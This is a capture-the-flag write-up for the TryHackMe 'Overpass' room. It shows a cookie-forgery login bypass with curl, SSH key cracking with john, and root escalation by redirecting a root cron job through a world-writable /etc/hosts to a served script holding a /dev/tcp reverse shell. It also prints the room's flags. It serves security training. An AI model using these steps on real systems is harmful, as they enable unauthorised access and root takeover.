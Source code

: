 # Overpass
`url = https://tryhackme.com/room/overpass`
`date = 05/20/2023`
`export IP='10.10.199.17'`

---

## Enumeration

1. **Network Enumeration**

* We can see ports `80` & `22` open on the machine. This is indicative of the fact that I will probably need to find a way to ssh into this machine after enumerating the website hosted on port `80`.

2. **Source Code Analysis**

* The source code is available at `/downloads` directory on the website.

* It is written in GoLang. It is a password manager that works by ROT47 encryption. It stores the passwords in the home directory of the user after encoding it.

* The source code is useless, unless we get access to the machine. However, you can source your own over-pass executable using the build script that is provided as well as the source code that has been downloaded.

2. **Directory Bruteforcing**

* We see the following directories on the website:
```bash
/admin.html
/downloads
/main.js
/login.js
```
* The `/admin.html` page is where the login page is there. The problem with this page can be seen in the following lines of code:

```javascript
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```
* Notice how the `SessionToken` is litereally set to nothing. Traditionally, the function `Cookies.set()` takes the `type`, `value` & then the other parameters. Here, since the value is set to nothing, we can directly set the cookies to:

```bash
curl http://overpass.thm/api/login -X POST -b "SessionToken=anything"
```

## Exploitation

* We can see the key on the admin page by sending the curl request. It might not work, so call raghav.

* Upon login, we see the private key, which we can save as id_rsa as well as process it:

```bash
chmod 600 id_rsa
ssh2john id_rsa > forJohn
john --wordlist=/usr/share/wordlists/rockyou.txt --format=SSH forJohn
# The cracked password is james13
```
Finally, we can ssh into the system.

## Post Exploitation

1. **User Flag** - The `user.txt` can be found in the `/home/james/` directory. Which can then be catted out - `thm{65c1aaf000506e56996822c6281e6bf7}`

2. **Pirv Esc**
* Can be done by manually searching through weaknesses.
* Two main things to know - `/etc/hosts` is world writeable.
```bash
-rw-rw-rw- 1 root root 250 Jun 27  2020 /etc/hosts
```

Also, there is a cron tab that curls to a web address that has a shell script & pipes it to the bash command.


```bash
 * * * * * root curl overpass.thm/downloads/src/buildscript.sh | sh
```

* This crontab is run by root. Thus, adding the attacker's IP to the `/etc/hosts` file as `overpass.thm` and then running a python server locally with the file structure `./downloads/buildscript.sh` should do the trick. I am going to add a reverse shell in this file on my machine.

3. **Root Flag**
* On the attack machine:
```bash
mkdir -p ./downloads/src/
echo "sh -i >& /dev/tcp/10.6.36.128/1235 0>&1" >> ./downloads/src/buildscript.sh
sudo python3 -m http.server 80
```

* On the victim machine:
```bash
echo "10.6.36.128 overpass.thm" >> /etc/hosts
```
* We should be receiving the shell in about a a minute becuse this script runs every minute, from the victim machine.

*Note -- make sure that the directory & any sub-directories that the victim is curling, has perms 777 in orderfor this to work.*

* The root flag can be found in the `/root` directory which can then be catted out - `thm{7f336f8c359dbac18d54fdd64ea753bb}`

fin.